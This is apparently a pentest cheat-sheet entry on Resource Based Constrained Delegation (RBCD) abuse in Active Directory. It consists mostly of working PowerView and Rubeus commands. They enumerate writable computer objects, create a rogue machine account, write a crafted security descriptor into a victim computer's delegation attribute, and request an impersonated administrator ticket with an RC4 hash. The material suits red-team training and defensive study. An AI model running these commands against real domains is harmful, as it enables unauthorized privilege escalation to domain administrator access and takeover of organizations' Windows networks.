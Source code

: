 ### Resource Based Constrained Delegation (RBCD)

This attack can be used to abuse: GenericAll, GenericWrite, WriteProperty, or WriteDACL on computer object

```
# find computer objects current user has GenericWrite to
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# nab computer account hash to exploit (or create a computer)
.\Rubeus.exe s4u /user:myComputer$ /rc4:AA6EAFB522589934A6E5CE92C6438221 /impersonateuser:administrator /msdsspn:CIFS/appsrv01.prod.corp1.com /ptt
```

Create computer and use hash in exploit

```
# enumerate ms-DS-MachineAccountQuota
Get-DomainObject -Identity prod -Properties ms-DS-MachineAccountQuota

# get a computer account hash or create computer account
New-MachineAccount -MachineAccount myComputer -Password $(ConvertTo-SecureString 'h4x' -AsPlainText -Force)

# instantiate a SecurityDescriptor object
$sid =Get-DomainComputer -Identity myComputer -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"

# convert to byte array
$SDbytes = New-Object byte[] ($SD.BinaryLength)

$SD.GetBinaryForm($SDbytes,0)

# obtain handle to victim computer object
Get-DomainComputer -Identity appsrv01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# check it
$RBCDbytes = Get-DomainComputer appsrv01 -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity

$Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RBCDbytes, 0

$Descriptor.DiscretionaryAcl
```

#### Resources
- [RBCD_takeover_example.ps1 - harmj0y](https://gist.github.com/HarmJ0y/a1ae1cf09e5ac89ee15fb3da25dcb10a)
- [Delegating Like a Boss: Abusing Kerberos Delegation in Active Directory](https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/)
